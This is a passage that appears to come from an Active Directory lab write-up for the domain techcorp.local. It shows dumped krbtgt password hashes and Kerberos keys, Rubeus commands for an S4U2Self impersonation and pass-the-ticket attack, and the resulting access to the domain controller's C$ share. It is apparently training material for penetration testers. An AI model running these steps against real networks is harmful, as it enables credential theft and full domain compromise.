 ```powershell

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9fe386f0ebd8045b1826f80e3af94aed

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
      aes128_hmac       (4096) : ac670a0db8f81733cdc7ea839187d024
      des_cbc_md5       (4096) : 977526ab75ea8691

<snip>
```
- We can also use the ticket to execute a S4U2Self attack in order to request a TGS for any service we want by impersonating a high-privileged user on `techcorp.local`.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ticket:doIF7...

<snip>

PS C:\Auditor> .\Rubeus.exe ptt /ticket:doIGRD...
```
- We can now access `TECHCORP-DC` via `CIFS`.
```powershell
PS C:\Auditor> dir \\techcorp-dc.techcorp.local\c$\Users


    Directory: \\techcorp-dc.techcorp.local\c$\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/19/2023  12:52 AM                Administrator
d-----        7/18/2019   9:48 AM                Administrator.US
d-r---        5/25/2019   3:25 AM                Public
```
